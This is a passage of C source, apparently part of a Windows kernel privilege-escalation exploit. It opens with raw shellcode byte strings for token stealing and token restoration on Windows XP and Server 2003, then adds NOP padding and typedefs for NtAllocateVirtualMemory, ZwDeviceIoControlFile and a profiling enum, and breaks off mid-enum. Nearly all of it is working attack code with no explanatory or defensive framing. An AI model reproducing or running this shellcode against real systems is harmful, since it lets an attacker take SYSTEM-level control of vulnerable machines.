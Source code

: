 //70 byte				 
CHAR* tokenstealing_2k3 =  "\x52\x53\x33\xc0\x64\x8b\x80\x24\x01\x00\x00\x8b\x40\x38\x8b\xc8" \
	"\x8b\x98\xd8\x00\x00\x00\x89\x1d\x00\x09\x02\x00\x8b\x80\x98\x00\x00\x00\x81\xe8\x98\x00" \
	"\x00\x00\x81\xb8\x94\x00\x00\x00\x04\x00\x00\x00\x75\xe8\x8b\x90\xd8\x00\x00\x00\x8b\xc1" \
	"\x89\x90\xd8\x00\x00\x00\x5b\x5a\xc2\x10";
//28 byte				 
CHAR* restore_token_xp =  "\x52\x33\xc0\x64\x8b\x80\x24\x01\x00\x00\x8b\x40\x44\x8b\x15\x00" \
	"\x09\x02\x00\x89\x90\xc8\x00\x00\x00\x5a\xc2\x10";
//28 byte				 
CHAR* restore_token_2k3 =  "\x52\x33\xc0\x64\x8b\x80\x24\x01\x00\x00\x8b\x40\x38\x8b\x15\x00\x09" \
	"\x02\x00\x89\x90\xd8\x00\x00\x00\x5a\xc2\x10";

//22 byte
CHAR* restore_ptrs_layout="\x31\xc0\xb8\x00\x00\x00\x00\xa3\x00\x00\x00\x00\xb8\x00\x00\x00\x00\xa3\x00\x00\x00\x00";

//2 byte
CHAR* padding="\x90\x90";

typedef struct _IO_STATUS_BLOCK {
	NTSTATUS Status;
	ULONG Information;
} IO_STATUS_BLOCK, *PIO_STATUS_BLOCK;


typedef VOID (*PIO_APC_ROUTINE) (
	PVOID ApcContext,
	PIO_STATUS_BLOCK IoStatusBlock,
	ULONG Reserved
);

typedef NTSTATUS (NTAPI *_NtAllocateVirtualMemory)(IN HANDLE ProcessHandle, IN OUT PVOID *BaseAddress, IN ULONG ZeroBits, IN OUT PULONG RegionSize, IN ULONG AllocationType, IN ULONG Protect );

typedef NTSTATUS (*_ZwDeviceIoControlFile)(
	__in HANDLE FileHandle, 
	__in_opt   HANDLE Event, 
	__in_opt   PIO_APC_ROUTINE ApcRoutine,
	__in_opt   PVOID ApcContext,
	__out      PIO_STATUS_BLOCK IoStatusBlock,
	__in       ULONG IoControlCode,
	__in_opt   PVOID InputBuffer,
	__in       ULONG InputBufferLength,
	__out_opt  PVOID OutputBuffer,
	__in       ULONG OutputBufferLength
);

typedef enum _KPROFILE_SOURCE {
    ProfileTime,
    ProfileAlignmentFixup,
    ProfileTotalIssues,
    ProfilePipelineDry,
    ProfileLoadInstructions,
    ProfilePipelineFrozen,
    ProfileBranchInstructions,
    ProfileTotalNonissues,
    ProfileDcacheMisses,
    ProfileIcacheMisses,
    ProfileCacheMisses,
    ProfileBranchMispredictions,
    ProfileStoreInstructions,
    ProfileFpInstructions,
    ProfileIntegerInstructions,
    Profile2Issue,
    Profile3Issue,
    Profile4Issue,
    ProfileSpecialInstructions,